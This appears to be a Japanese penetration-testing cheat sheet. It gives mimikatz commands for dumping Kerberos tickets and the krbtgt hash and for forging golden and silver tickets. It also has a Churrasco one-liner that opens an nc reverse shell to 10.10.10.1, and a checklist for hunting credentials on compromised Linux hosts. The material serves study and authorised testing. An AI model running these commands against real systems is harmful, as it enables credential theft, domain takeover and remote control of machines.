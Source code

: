 ### 環境変数の確認





## 特権取得(Windows)

### mimikatzでKerberos環境を攻撃する

``` bash
# mimikatz.exe
# .kirbiチケットのエクスポート
sekurlsa::tickets /export
# チケットの偽装
kerberos::ptt <ticket>

# ========================================================
# mimikatz.exe
# ゴールデンチケットの作成に必要なハッシュとセキュリティ識別子のダンプ
lsadump::lsa /inject /name:krbtgt

# ゴールデンチケットを作成してシルバーチケットを作成するためのコマンド
# サービスNTLMハッシュをkrbtgtスロットに入れ、サービスアカウントのsidをsidに入れ、idを1103に変更する
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:

# mimikatzで指定されたチケットを使用して新しい昇格されたコマンドプロンプトを起動
misc::cmd
```

- マシンのLSASSメモリからTGTをダンプすることにより、チケットを取得し、偽装することができる。
- ドメインのSQLサーバーにアクセスしたいが、現在侵害されているユーザーはそのサーバーにアクセスできないとき、そのサービスをkerberoastingすることで、足がかりを得るためのアクセス可能なサービスアカウントを見つけることができる。次に、サービスハッシュをダンプし、TGTになりすまして、KDCからSQLサービスのサービスチケットを要求し、ドメインのSQLにアクセスできるようにする。

### ローカル特権昇格ツール

``` bash
# ユーザーがSeImpersonateまたはSeAssignPrimaryToken特権を持っている場合、COMサーバを悪用して特権を取得できる場合がある


# Victimが古い場合はChurrascoを使う
churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.10.1 9999"
```

参考：[GitHub - ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

参考：[GitHub - Re4son/Churrasco: Changes for Visual Studio 2013](https://github.com/Re4son/Churrasco)

参考：[getsystemの中身](https://note.com/lacnote/n/nef29b7c6a94f)



## 内部探索(Linux)

- シェルを取ったらとりあえずhistoryを確認してみる
- rootとuserのcrontabを確認する
- `sudo -l`の出力を確認する
- 認証情報の探索
  - 設定情報が記載されたconfigファイル
  - 認証情報が格納されたデータベースのダンプ
  - 認証情報が平文で書き込まれているアクセスログ
  - 過去の認証情報が記録されたバックアップファイルやシャドウコピー
- マウントされたフラッシュディスクのデータをサルベージする
  - [USB メモリからのデータのサルベージ](https://kashiwaba-yuki.com/hackthebox-linux-mirai)
